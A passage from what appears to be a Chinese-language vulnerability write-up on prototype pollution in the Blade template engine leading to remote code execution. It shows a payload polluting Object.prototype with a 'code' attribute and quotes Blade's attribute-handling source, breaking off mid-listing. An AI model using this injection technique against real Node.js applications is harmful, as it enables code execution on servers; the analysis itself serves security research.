 这样我们就明白了为啥导致 AST 树中出现 `undefined` ，我们只需要加入`name` 和 `value` 属性即可

```plain
Object.prototype.otherprop = {'code': 'console.log(1)', "name": "abc", "value": "def"};
```

### RCE

既然可以注入任意属性了，那我们就可以利用这一点，向 `attributes` 中写入代码

注意到在处理 AST 生成代码的过程中，会处理 `code` 的属性

[![](assets/1701612425-f095b1201bd325e22f235fe8cb08969e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230627121443-24f85100-14a1-1.png)

```plain
for(var i in attrs)
{
    //interpolate text attributes
    if(attrs[i].text)
    {
        var stringified = JSON.stringify(attrs[i].text),
            interpolated = bladeutil.interpolate(stringified, ns);
        //check to see if this text attribute needs to be interpolated
        if(interpolated != stringified)
        {
            delete attrs[i].text;
            attrs[i].code = interpolated;
        }
    }
    //take care of text attributes here
    if(attrs[i].text != null)
    {
        if(attrs[i].escape)
            this._push("' " + i + "=" + bladeutil.quote(
```